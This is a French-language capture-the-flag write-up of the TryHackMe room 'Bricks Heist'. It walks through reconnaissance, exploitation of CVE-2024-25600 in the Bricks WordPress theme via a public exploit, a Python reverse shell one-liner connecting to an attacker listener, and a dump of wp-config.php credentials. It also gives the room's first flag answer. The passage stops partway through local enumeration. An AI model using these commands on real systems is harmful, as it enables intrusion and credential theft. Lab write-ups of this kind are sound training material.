




# TryHack3M: Bricks Heist Write up 🇫🇷

## Introduction

Ce write-up couvre l’exploitation complète de la room **TryHack3M: Bricks** sur TryHackMe, classée de niveau **facile**.

Voici les étapes qui seront détaillées dans ce write-up :

- Phase de reconnaissance
- Phase d’exploitation
- Post-exploitation

**Type de machine** : Linux
**Compétences mises en œuvre** : Exploitation Web, WordPress, Énumération locale, Investigation Blockchain
**Outils utilisés** : Nmap, Ffuf, Curl, Netcat, Searchsploit, WP-scan, Wappalyzer, Pwncat, Python, Git

Cette room est idéale pour s’entraîner à : **l’énumération d’un serveur web (interne/externe)**, **l’exploitation d’un serveur web sous WordPress** et un peu à **l’investigation Blockchain**.

C’est parti !

## Préparation de la room

Pour commencer, on peut ajouter l’IP de la machine cible au fichier `/etc/hosts` pour faciliter nos futures interactions avec la machine.

```bash
10.10.254.241 target bricks.thm
```

Cela nous permet alors de pouvoir accéder à l’adresse IP `10.10.254.241` en utilisant les noms suivants : `target` et `bricks.thm`.

## Reconnaissance initiale et observations

Dans un premier temps, effectuons un scan agressif sur la cible, afin d’avoir une meilleure compréhension de la machine cible.

On peut faire cela avec la commande Nmap suivante.

```bash
nmap -A target -oX initial_scan.xml -oN initial_scan.txt
Starting Nmap 7.95 ( https://nmap.org ) at 2025-07-24 11:53 CEST
Nmap scan report for target (10.10.254.241)
Host is up (0.040s latency).
Not shown: 996 closed tcp ports (reset)
PORT     STATE SERVICE  VERSION
22/tcp   open  ssh      OpenSSH 8.2p1 Ubuntu 4ubuntu0.11 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 f8:af:e6:af:f6:00:fb:d6:7a:aa:d6:7a:40:31:7d:6e (RSA)
|   256 f4:c7:1a:24:8e:15:0d:ea:67:1f:65:2d:e4:7d:dd:5f (ECDSA)
|_  256 e9:44:bf:6a:7c:aa:bc:38:2d:67:d3:9d:7f:a6:f0:64 (ED25519)
80/tcp   open  http     Python http.server 3.5 - 3.10
|_http-server-header: WebSockify Python/3.8.10
|_http-title: Error response
443/tcp  open  ssl/http Apache httpd
|_http-generator: WordPress 6.5
|_ssl-date: TLS randomness does not represent time
|_http-server-header: Apache
| ssl-cert: Subject: organizationName=Internet Widgits Pty Ltd/stateOrProvinceName=Some-State/countryName=US
| Not valid before: 2024-04-02T11:59:14
|_Not valid after:  2025-04-02T11:59:14
| http-robots.txt: 1 disallowed entry 
|_/wp-admin/
|_http-title: Brick by Brick
| tls-alpn: 
|   h2
|_  http/1.1
3306/tcp open  mysql    MySQL (unauthorized)
Device type: general purpose
Running: Linux 4.X
OS CPE: cpe:/o:linux:linux_kernel:4.15
OS details: Linux 4.15
Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 1720/tcp)
HOP RTT      ADDRESS
1   38.70 ms 10.8.0.1
2   39.69 ms target (10.10.254.241)

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 18.83 seconds
```

**Explication de la commande** : On lance un scan Nmap agressif (`-A`) ensuite, on enregistre les résultats dans deux fichiers, respectivement `scan_initial.xml` et `scan_initial.txt` → Un fichier XML avec le flag `-oX` et le fichier texte avec le flag `-oN`. Cela nous permet de scanner une fois pour toute la machine cible.

**Note : Le fichier XML peut servir pour importer notre scan dans Metasploit. Mais, nous ne l’utiliserons pas durant ce challenge.**

Le scan nous montre des informations intéressantes.

En utilisant mon outil Nmap2table ([Dispo ici](https://github.com/0xMR007/Nmap2Table)) j’obtiens le tableau suivant :

### Host : 10.10.47.101 (target)

| Port/Protocol | State | Service | Version |
| --- | --- | --- | --- |
| 22/tcp | open | ssh | OpenSSH 8.2p1 Ubuntu 4ubuntu0.11 |
| 80/tcp | open | http | Python http.server 3.5 - 3.10 |
| 443/tcp | open | http | Apache httpd |
| 3306/tcp | open | mysql | MySQL |

### NSE Scripts :

```bash
Port 22 :
ssh-hostkey:

  3072 f8:af:e6:af:f6:00:fb:d6:7a:aa:d6:7a:40:31:7d:6e (RSA)
  256 f4:c7:1a:24:8e:15:0d:ea:67:1f:65:2d:e4:7d:dd:5f (ECDSA)
  256 e9:44:bf:6a:7c:aa:bc:38:2d:67:d3:9d:7f:a6:f0:64 (ED25519)

Port 80 :
http-server-header:
WebSockify Python/3.8.10

http-title:
Error response

Port 443 :
http-generator:
WordPress 6.5

ssl-date:
TLS randomness does not represent time

http-server-header:
Apache

ssl-cert:
Subject: organizationName=Internet Widgits Pty Ltd/stateOrProvinceName=Some-State/countryName=US
Not valid before: 2024-04-02T11:59:14
Not valid after:  2025-04-02T11:59:14

http-robots.txt:
1 disallowed entry
/wp-admin/

http-title:
Brick by Brick

tls-alpn:

  h2
  http/1.1

TRACEROUTE (using port 1720/tcp)
HOP RTT        ADDRESS
1   38.70 ms   10.8.0.1
2   39.69 ms   10.10.254.241

```

Faisons un point sur ce que nous savons de la machine jusqu’à présent :

- Port 22 : Port SSH ouvert + OpenSSH (8.2 ?) utilisé sur la machine cible + grâce au scan de version la machine cible est probablement une machine Linux sous Ubuntu.

- Port 80 : La machine cible semble héberger un site web + un serveur web sous Python semble aussi être utilisé dont la version se situerait entre la 3.5 et la 3.10. Cette hypothèse est confirmée par le script `http-server-header` qui nous donne comme résultat `WebSockify Python/3.8.10`.

- Port 443 : HTTPS est activé, la machine cible semble utiliser un serveur web Apache probablement avec WordPress. En effet, le script `http-generator` semble confirmer cela
    - → Présence d’un WordPress version 6.5 (à confirmer plus tard).
    - On remarque aussi la présence du fameux fichier
    robots.txt avec une entrée non autorisée sur `/wp-admin/`.

→ Un serveur web utilisant deux services web différents sur les deux ports web m’a un peu surpris au premier abord mais, en faisant quelques recherches c’est en fait une configuration assez fréquente notamment pour : une séparation des services, un environnement test/dev, console distante, honeypot, etc.

- Port 3306 : Pour le moment, la seule information que nous avons sur ce port est que MySQL est utilisé sur la machine cible, sûrement pour la base de données du/des sites web (backend).

## Énumération web

### Port 80

Avec toutes les informations que nous avons pu récupérer jusqu’à présent, nous devrions énumérer les deux ports web de la machine cible étant donné qu’HTTP et HTTPS sont activés.

Essayons de visiter la page web sur le port 80 (HTTP)



En utilisant un navigateur on obtient une erreur HTTP 405 → La méthode utilisée (GET) n’est pas autorisée.

Hmm… essayons d’obtenir les méthodes HTTP autorisées avec curl

```bash
curl -v -X OPTIONS http://bricks.thm/             
* Host bricks.thm:80 was resolved.
* IPv6: (none)
* IPv4: 10.10.218.10
*   Trying 10.10.218.10:80...
* Connected to bricks.thm (10.10.218.10) port 80
* using HTTP/1.x
> OPTIONS / HTTP/1.1
> Host: bricks.thm
> User-Agent: curl/8.14.1
> Accept: */*
> 
* Request completely sent off
< HTTP/1.1 501 Unsupported method ('OPTIONS')
< Server: WebSockify Python/3.8.10
< Date: Fri, 25 Jul 2025 20:02:33 GMT
< Connection: close
< Content-Type: text/html;charset=utf-8
< Content-Length: 500
< 
<!DOCTYPE HTML PUBLIC "-//W3C//DTD HTML 4.01//EN"
        "http://www.w3.org/TR/html4/strict.dtd">
<html>
    <head>
        <meta http-equiv="Content-Type" content="text/html;charset=utf-8">
        <title>Error response</title>
    </head>
    <body>
        <h1>Error response</h1>
        <p>Error code: 501</p>
        <p>Message: Unsupported method ('OPTIONS').</p>
        <p>Error code explanation: HTTPStatus.NOT_IMPLEMENTED - Server does not support this operation.</p>
    </body>
</html>
* shutting down connection #0
```

Ici on utilise la méthode HTTP OPTIONS qui nous permettrait normalement de savoir quelles méthodes sont autorisées.

Dans ce cas, OPTIONS **n’est pas supportée** !

Il va falloir chercher ailleurs.

Essayons un banner grabbing sur ce port avec Netcat...

```bash
nc -v target 80
target [10.10.218.10] 80 (http) open
```

Bon, on sait déjà que le port est ouvert + la connexion est perdue après 3 secondes, donc ça ne nous aide pas beaucoup.

Je pense qu’on devrait se concentrer sur le site WordPress. Allons-y !

### Port 443

Commençons comme avant en affichant le contenu du site via un navigateur.



Parfait ! On a enfin quelque chose → une simple page web avec le texte "**Brick by Brick!**" + une image de… briques.

J’ai rapidement vérifié le code source, mais il ne semble rien contenir d’intéressant (en tout cas, c’est ce que je pensais… plus d’infos à ce sujet plus tard).

Donc, la première question est : ***What is the content of the hidden .txt file in the web folder ?** soit **Quel est le contenu du fichier `.txt` caché dans le dossier web ?***

La première chose qui m’est venue à l’esprit, c’est du **fuzzing**, alors lançons un `ffuf` :

```bash
ffuf -u https://bricks.thm/FUZZ -w /usr/share/seclists/Discovery/Web-Content/common.txt -mc 200 -e .txt

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : https://bricks.thm/FUZZ
 :: Wordlist         : FUZZ: /usr/share/seclists/Discovery/Web-Content/common.txt
 :: Extensions       : .txt 
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200
________________________________________________

license.txt             [Status: 200, Size: 19915, Words: 3331, Lines: 385, Duration: 49ms]
robots.txt              [Status: 200, Size: 67, Words: 4, Lines: 4, Duration: 703ms]
robots.txt              [Status: 200, Size: 67, Words: 4, Lines: 4, Duration: 947ms]
:: Progress: [9492/9492] :: Job [1/1] :: 51 req/sec :: Duration: [0:03:36] :: Errors: 0 ::
```

Malheureusement, **le flag n’est pas dans ces fichiers** (je ne sais pas pourquoi il y a deux `robots.txt`).

On a seulement repéré l’entrée `/wp-admin/` mais on le savait déjà.

Il y a aussi une entrée pour `/wp-admin/admin-ajax.php` mais je ne pense pas que ce soit pertinent.

Donc continuons notre énumération web, cette fois sur **WordPress**.

**Wappalyzer** nous donne quelques infos très intéressantes :

- WordPress 6.5 → la version semble confirmée
- Python + PHP détectés
- Thème WordPress : **Bricks** (comme le nom de la room ? intéressant…) → vulnérabilité potentielle ?

On va donc lancer **WPScan** pour voir ce qu’on peut récupérer de plus.

```bash
wpscan --url https://bricks.thm/
_______________________________________________________________
         __          _______   _____
         \ \        / /  __ \ / ____|
          \ \  /\  / /| |__) | (___   ___  __ _ _ __ ®
           \ \/  \/ / |  ___/ \___ \ / __|/ _` | '_ \
            \  /\  /  | |     ____) | (__| (_| | | | |
             \/  \/   |_|    |_____/ \___|\__,_|_| |_|

         WordPress Security Scanner by the WPScan Team
                         Version 3.8.28
       Sponsored by Automattic - https://automattic.com/
       @_WPScan_, @ethicalhack3r, @erwan_lr, @firefart
_______________________________________________________________

Scan Aborted: The url supplied 'https://bricks.thm/' seems to be down (SSL peer certificate or SSH remote key was not OK)
```

On a une erreur SSL (probablement à cause de HTTPS).

Une recherche rapide sur cette erreur indique qu’il faut ajouter l’option `--disable-tls-checks` pour corriger ça.

On relance donc avec cette option :

```bash
wpscan --url https://bricks.thm/ --disable-tls-checks
_______________________________________________________________
         __          _______   _____
         \ \        / /  __ \ / ____|
          \ \  /\  / /| |__) | (___   ___  __ _ _ __ ®
           \ \/  \/ / |  ___/ \___ \ / __|/ _` | '_ \
            \  /\  /  | |     ____) | (__| (_| | | | |
             \/  \/   |_|    |_____/ \___|\__,_|_| |_|

         WordPress Security Scanner by the WPScan Team
                         Version 3.8.28
       Sponsored by Automattic - https://automattic.com/
       @_WPScan_, @ethicalhack3r, @erwan_lr, @firefart
_______________________________________________________________

[+] URL: https://bricks.thm/ [10.10.218.10]
[+] Started: Fri Jul 25 22:33:35 2025

Interesting Finding(s):

[+] Headers
 | Interesting Entry: server: Apache
 | Found By: Headers (Passive Detection)
 | Confidence: 100%

[+] robots.txt found: https://bricks.thm/robots.txt
 | Interesting Entries:
 |  - /wp-admin/
 |  - /wp-admin/admin-ajax.php
 | Found By: Robots Txt (Aggressive Detection)
 | Confidence: 100%

[+] XML-RPC seems to be enabled: https://bricks.thm/xmlrpc.php
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 100%
 | References:
 |  - http://codex.wordpress.org/XML-RPC_Pingback_API
 |  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_ghost_scanner/
 |  - https://www.rapid7.com/db/modules/auxiliary/dos/http/wordpress_xmlrpc_dos/
 |  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_xmlrpc_login/
 |  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_pingback_access/

[+] WordPress readme found: https://bricks.thm/readme.html
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 100%

[+] The external WP-Cron seems to be enabled: https://bricks.thm/wp-cron.php
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 60%
 | References:
 |  - https://www.iplocation.net/defend-wordpress-from-ddos
 |  - https://github.com/wpscanteam/wpscan/issues/1299

[+] WordPress version 6.5 identified (Insecure, released on 2024-04-02).
 | Found By: Rss Generator (Passive Detection)
 |  - https://bricks.thm/feed/, <generator>https://wordpress.org/?v=6.5</generator>
 |  - https://bricks.thm/comments/feed/, <generator>https://wordpress.org/?v=6.5</generator>

[+] WordPress theme in use: bricks
 | Location: https://bricks.thm/wp-content/themes/bricks/
 | Readme: https://bricks.thm/wp-content/themes/bricks/readme.txt
 | Style URL: https://bricks.thm/wp-content/themes/bricks/style.css
 | Style Name: Bricks
 | Style URI: https://bricksbuilder.io/
 | Description: Visual website builder for WordPress....
 | Author: Bricks
 | Author URI: https://bricksbuilder.io/
 |
 | Found By: Urls In Homepage (Passive Detection)
 | Confirmed By: Urls In 404 Page (Passive Detection)
 |
 | Version: 1.9.5 (80% confidence)
 | Found By: Style (Passive Detection)
 |  - https://bricks.thm/wp-content/themes/bricks/style.css, Match: 'Version: 1.9.5'

[+] Enumerating All Plugins (via Passive Methods)

[i] No plugins Found.

[+] Enumerating Config Backups (via Passive and Aggressive Methods)
 Checking Config Backups - Time: 00:00:03 <========================================> (137 / 137) 100.00% Time: 00:00:03

[i] No Config Backups Found.

[!] No WPScan API Token given, as a result vulnerability data has not been output.
[!] You can get a free API token with 25 daily requests by registering at https://wpscan.com/register

[+] Finished: Fri Jul 25 22:33:44 2025
[+] Requests Done: 170
[+] Cached Requests: 7
[+] Data Sent: 41.615 KB
[+] Data Received: 110.502 KB
[+] Memory used: 267.512 MB
[+] Elapsed time: 00:00:08
```

Le scan nous donne pas mal d’informations, mais **une chose retient mon attention** :
**Le thème WordPress (encore !) : Bricks → et cette fois, on a sa version exacte.**

Si ce thème est vulnérable, on pourra peut-être l’exploiter.

On tente une recherche avec **searchsploit** :

```bash
searchsploit Bricks 1.9.5
Exploits: No Results
Shellcodes: No Results
Papers: No Results

searchsploit Bricks      
------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                       |  Path
------------------------------------------------------------------------------------- ---------------------------------
FLIR Brickstream 3D+ - RTSP Stream Disclosure                                        | hardware/webapps/45607.txt
FLIR Brickstream 3D+ 2.1.742.1842 - Config File Disclosure                           | hardware/webapps/45599.txt
------------------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results
Papers: No Results
```

Bon, searchsploit ne nous a pas vraiment aidés. Faisons une recherche Google pour en savoir plus sur ce thème WordPress. Après avoir fait une simple recherche Google “wordpress bricks vulns” on obtient la CVE suivante : **CVE-2024-25600**

Gravité : **élevée**, avec un score **CVSS de 10/10**

Cette vulnérabilité repose sur une mauvaise gestion des entrées utilisateurs dans le plugin **Bricks Builder**, menant à une **RCE par injection de code**.

Plus d’infos ici :

- NVD : https://nvd.nist.gov/vuln/detail/CVE-2024-25600
- GitHub (exploit de Chocapikk) : https://github.com/Chocapikk/CVE-2024-25600

Vous pouvez aussi coder votre propre script Python, mais ici je vais utiliser celui de **Chocapikk**.

## Exploitation de WordPress

On commence par cloner le dépôt contenant l’exploit :

```bash
git clone https://github.com/Chocapikk/CVE-2024-25600.git
Clonage dans 'CVE-2024-25600'...
remote: Enumerating objects: 51, done.
remote: Counting objects: 100% (51/51), done.
remote: Compressing objects: 100% (38/38), done.
remote: Total 51 (delta 18), reused 45 (delta 12), pack-reused 0 (from 0)
Réception d'objets: 100% (51/51), 20.83 Kio | 2.60 Mio/s, fait.
Résolution des deltas: 100% (18/18), fait.

```

Afin de faire une installation correcte, il est fortement recommandé de créer un environnement virtuel Python pour installer les dépendances du script Python.

Pour ce faire, nous pouvons utiliser la commande suivante :

```bash
python3 -m venv CVE-2024-25600-env # <- Vous pouvez le nommer comme vous voulez
source CVE-2024-25600-env/bin/activate # Nous activons ensuite l'environnement virtuel
pip install -r requirements.txt # Nous installons ensuite les dépendances

# Vous pouvez désactiver le venv en utilisant la commande suivante
deactivate
```

Bien, essayons maintenant de lancer le script !

```bash
chmod +x exploit.py # Donner les permissions d'exécution
python exploit.py -u https://bricks.thm/

[*] Nonce trouvé : 5f3fce1e00 # Vous pouvez également obtenir cette valeur dans le code source du site web
[+] https://bricks.thm/ est vulnérable à CVE-2024-25600. Sortie de la commande : apache
[!] Le shell est prêt, veuillez taper vos commandes UwU
# id
uid=1001(apache) gid=1001(apache) groups=1001(apache)

```

C'était rapide ! Nous avons enfin une session shell, génial !

Nous pouvons maintenant récupérer le premier flag sous /data/www/default

```bash
# pwd
/data/www/default
# cat 650c844110baced87e1606453b93f22a.txt
THM{fl46_650c844110baced87e1606453b93f22a}

```

## Réponse à la Q1

La réponse est **THM{fl46_650c844110baced87e1606453b93f22a}**

Maintenant que nous avons un shell sur la cible, nous pourrions vouloir le stabiliser car nous ne pouvons pas faire grand-chose avec.

Pour ce faire, j'aime utiliser `pwncat` (https://github.com/calebstewart/pwncat) qui est un outil vraiment utile. Jetez-y un oeil !

Nous pouvons obtenir un reverse shell stable en utilisant les commandes suivantes.

D'abord, on démarre l’écoute pwncat

```bash
pwncat -lp 4444
[11:35:05] Bienvenue à pwncat 🐈! __main__.py:164
lié à 0.0.0.0:4444
```

Ensuite, nous pouvons créer un reverse shell en Python

```bash
# which python # Nous vérifions d'abord que Python est disponible sur la machine cible
/usr/bin/python
# Ensuite, nous exécutons le reverse shell Python
# python3 -c 'import os,pty,socket;s=socket.socket();s.connect(("<THM_LOCAL_IP",4444));[os.dup2(s.fileno(),f)for f in(0,1,2)];pty.spawn("sh")'

```

```bash
pwncat -lp 4444
[11:35:05] Bienvenue à pwncat 🐈! __main__.py:164
[11:37:48] connexion reçue de 10.10.35.124:53306 bind.py:84
[11:37:49] 0.0.0.0:4444: mise à niveau de /usr/bin/dash à /usr/bin/bash manager.py:957
[11:37:50] 10.10.35.124:53306: nouvel hôte enregistré avec la base de données manager.py:957
(local) pwncat\$
# En utilisant CTRL + D, nous obtenons un reverse shell propre
(remote) apache@tryhackme:/data/www/default\$ id
uid=1001(apache) gid=1001(apache) groups=1001(apache)

```

**Note : J'ai essayé de nombreux payloads de reverse shell (Bash, Netcat, Perl, etc.) mais je continuais à obtenir cette erreur : `[-] No valid response received or target not vulnerable`. Seul celui en Python a fonctionné pour moi.**

## Post-exploitation

OK, maintenant que nous avons accès à la machine cible, nous devons trouver un "processus suspect".

J'ai essayé d'utiliser la commande `ps -aux` mais je n'ai rien trouvé.

```bash
ps -aux
USER         PID %CPU %MEM    VSZ   RSS TTY      STAT START   TIME COMMAND
root           1  0.0  0.3 169644 12888 ?        Ss   08:58   0:02 /sbin/init
root           2  0.0  0.0      0     0 ?        S    08:58   0:00 [kthreadd]
root           3  0.0  0.0      0     0 ?        I<   08:58   0:00 [rcu_gp]
root           4  0.0  0.0      0     0 ?        I<   08:58   0:00 [rcu_par_gp]
root           5  0.0  0.0      0     0 ?        I<   08:58   0:00 [slub_flushwq]
root           6  0.0  0.0      0     0 ?        I<   08:58   0:00 [netns]
root           8  0.0  0.0      0     0 ?        I<   08:58   0:00 [kworker/0:0H-events_highpri]
root          10  0.0  0.0      0     0 ?        I<   08:58   0:00 [mm_percpu_wq]
root          11  0.0  0.0      0     0 ?        S    08:58   0:00 [rcu_tasks_rude_]
root          12  0.0  0.0      0     0 ?        S    08:58   0:00 [rcu_tasks_trace]
[..................................................................................]
```

Regardons autour du système pour voir s'il y a des informations intéressantes (identifiants, clés ssh, fichiers SUID, etc.). → Rien non plus à première vue.

### Énumération locale

Tout d'abord, nous pouvons jeter un coup d'œil au fichier de configuration WordPress qui est `wp-config.php`

```bash
(remote) apache@tryhackme:/data/www/default$ cat wp-config.php
<?php
/**
 * The base configuration for WordPress
 *
 * The wp-config.php creation script uses this file during the installation.
 * You don't have to use the web site, you can copy this file to "wp-config.php"
 * and fill in the values.
 *
 * This file contains the following configurations:
 *
 * * Database settings
 * * Secret keys
 * * Database table prefix
 * * ABSPATH
 *
 * @link https://wordpress.org/documentation/article/editing-wp-config-php/
 *
 * @package WordPress
 */

// ** Database settings - You can get this info from your web host ** //
/** The name of the database for WordPress */
define( 'DB_NAME', 'wordpress' );

/** Database username */
define( 'DB_USER', 'root' );

/** Database password */
define( 'DB_PASSWORD', 'lamp.sh' );

/** Database hostname */
define( 'DB_HOST', 'localhost' );

/** Database charset to use in creating database tables. */
define( 'DB_CHARSET', 'utf8mb4' );

/** The database collate type. Don't change this if in doubt. */
define( 'DB_COLLATE', '' );

/**#@+
 * Authentication unique keys and salts.
 *
 * Change these to different unique phrases! You can generate these using
 * the {@link https://api.wordpress.org/secret-key/1.1/salt/ WordPress.org secret-key service}.
 *
 * You can change these at any point in time to invalidate all existing cookies.
 * This will force all users to have to log in again.
 *
 * @since 2.6.0
 */
define( 'AUTH_KEY',         '?HI~$7a0sn[(C=+kmx=JDV63[]sOnqKx|G51mk5f$igT~/NjljMgA#L dR]YUa z' );
define( 'SECURE_AUTH_KEY',  'VHqhArawbk GIa?/yw@5wKL8^n;X#1[~dx7ip/8d,CTMoowa7I>D>t]%,@V+Dff8' );
define( 'LOGGED_IN_KEY',    'N~l1*HAb~|6UV;]pkI./Tu11Z8$}1a{ZH0p2.z%221w]{vj<g?ELvb+qgWp u>r6' );
define( 'NONCE_KEY',        'Wu/sg/)nHQJ|sggXMb(@<,;NCc[AcMlL!5}p_N;fqmr-$Tt1Ex6x:(%T{{Ht&!Re' );
define( 'AUTH_SALT',        'zi$l=XQKDA0hF8Q4c(2]o_kU:!lz?;xuQkU3zB#8DnLZ6CUW:HX@%0FsG6=IRSZE' );
define( 'SECURE_AUTH_SALT', 'tiycIlY-:(Y)6I ayw2t/<#<RWUm6/,DsbY*;!ykNtT!B4|YM&($ u2X)mi.`r8z' );
define( 'LOGGED_IN_SALT',   '(kn%uPE>Up5}ehVO~}qG>]zfHO`oE[vdXzLi.N{)UlKcQ]cr/Vy*yisutrsJZ<&T' );
define( 'NONCE_SALT',       '6rzz2K[ztP}6KM ?5,c2S&)M!y;.}b6M/g{iOzO|sy;0.ePu ><z[v_0aHh$HD%}' );

/**#@-*/

/**
 * WordPress database table prefix.
 *
 * You can have multiple installations in one database if you give each
 * a unique prefix. Only numbers, letters, and underscores please!
 */
$table_prefix = 'wp_';

/**
 * For developers: WordPress debugging mode.
 *
 * Change this to true to enable the display of notices during development.
 * It is strongly recommended that plugin and theme developers use WP_DEBUG
 * in their development environments.
 *
 * For information on other constants that can be used for debugging,
 * visit the documentation.
 *
 * @link https://wordpress.org/documentation/article/debugging-in-wordpress/
 */
define( 'WP_DEBUG', false );

/* Add any custom values between this line and the "stop editing" line. */

/* That's all, stop editing! Happy publishing. */

/** Absolute path to the WordPress directory. */
if ( ! defined( 'ABSPATH' ) ) {
	define( 'ABSPATH', __DIR__ . '/' );
}

/** Sets up WordPress vars and included files. */
require_once ABSPATH . 'wp-settings.php';
```

Bien, nous avons maintenant des identifiants ! root:lamp.sh

N'oubliez pas que nous devons trouver un processus suspect et ensuite le service qui lui est affilié.

Listons tous les services sur le système en utilisant la commande suivante

```bash
(remote) apache@tryhackme:/data/www/default$ systemctl list-units --type=service --state=running
  UNIT                                           LOAD   ACTIVE SUB     DESCRIPTION                                    >
  accounts-daemon.service                        loaded active running Accounts Service                               >
  acpid.service                                  loaded active running ACPI event daemon                              >
  atd.service                                    loaded active running Deferred execution scheduler                   >
  avahi-daemon.service                           loaded active running Avahi mDNS/DNS-SD Stack                        >
  cron.service                                   loaded active running Regular background program processing daemon   >
  cups-browsed.service                           loaded active running Make remote CUPS printers available locally    >
  cups.service                                   loaded active running CUPS Scheduler                                 >
  dbus.service                                   loaded active running D-Bus System Message Bus                       >
  getty@tty1.service                             loaded active running Getty on tty1                                  >
  httpd.service                                  loaded active running LSB: starts Apache Web Server                  >
